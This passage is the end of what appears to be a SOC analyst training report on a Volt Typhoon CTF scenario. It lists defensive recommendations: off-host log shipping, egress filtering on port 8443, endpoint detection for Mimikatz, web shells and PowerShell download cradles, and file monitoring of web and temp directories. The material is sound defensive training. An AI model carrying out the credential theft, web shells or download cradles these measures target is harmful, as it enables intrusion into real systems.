4. **Centralize Event Logs (SIEM)** — Ship Windows Event Logs to an off-host SIEM in real-time so local log clearing doesn't destroy evidence.
5. **Block Outbound 8443 to Unknown Hosts** — Implement egress filtering on non-standard HTTPS ports.
6. **Endpoint Detection** — Deploy EDR solutions capable of detecting Mimikatz, web shells, and PowerShell-based download cradles.
7. **File Integrity Monitoring** — Monitor `C:\inetpub\wwwroot\` and `C:\Windows\Temp\` for unexpected file creation.

---

*Report generated as part of SOC Analyst training — Volt Typhoon CTF Scenario*
